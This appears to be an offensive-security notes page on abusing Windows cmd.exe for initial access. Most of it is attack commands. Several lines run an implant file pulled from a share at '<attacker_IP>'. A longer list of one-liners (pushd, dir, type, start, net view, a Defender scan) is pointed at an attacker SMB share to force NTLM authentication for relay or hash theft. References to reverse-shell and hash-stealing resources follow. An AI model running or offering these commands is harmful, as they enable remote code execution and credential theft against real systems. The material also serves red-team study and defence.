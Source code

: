 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - windows
---
```

# Command Prompt

## 01 - Common Files

```
C:\Windows\System32\cmd.exe
C:\Windows\SysWOW64\cmd.exe
```

## 02 - Execute Implants

> [!INFO] [Character Maximum Limit](https://learn.microsoft.com/en-us/troubleshoot/windows-client/shell-experience/command-line-string-limitation)
> The maximum length of characters in a string is 8192 characters when executing through a command prompt.

Execute commands.

```
C:\> cmd.exe /c <commands>
```

```
C:\> cmd.exe - < [<drive_letter>:\]path\to\implant.txt

C:\> cmd.exe /c - \\<attacker_IP>\path\to\implant.txt

C:\> cmd.exe /c < \\<attacker_IP>\path\to\implant.txt
```

Execute command to perform SMB authentication relay.

```
C:\> echo 1 > //<attacker_IP>/<share_name>

C:\> pushd \\<attacker_IP>\<share_name>

C:\> cmd.exe /k \\<attacker_IP>\<share_name>

C:\> cmd.exe /c \\<attacker_IP>\<share_name>

C:\> start \\<attacker_IP>\<share_name>

C:\> mkdir \\<attacker_IP>\<share_name>

C:\> type \\<attacker_IP>\<share_name>

C:\> dir \\<attacker_IP>\<share_name>

C:\> net.exe view \\<attacker_IP>

C:\> "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File \\<attacker_IP>\<share_name>\file.txt
```

TODO: Check the rest

```
find.exe, findstr.exe, [x]copy, move, replace.exe, del, rename and many more!
```

---
## References

### Backlinks

- [[Batch|Malware Development: Batch Obfuscation Techniques]]

### LOLBAS

- [LOLBAS: Cmd](https://lolbas-project.github.io/lolbas/Binaries/Cmd/)

### Source Repositories

- [r00t-3xp10it: CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)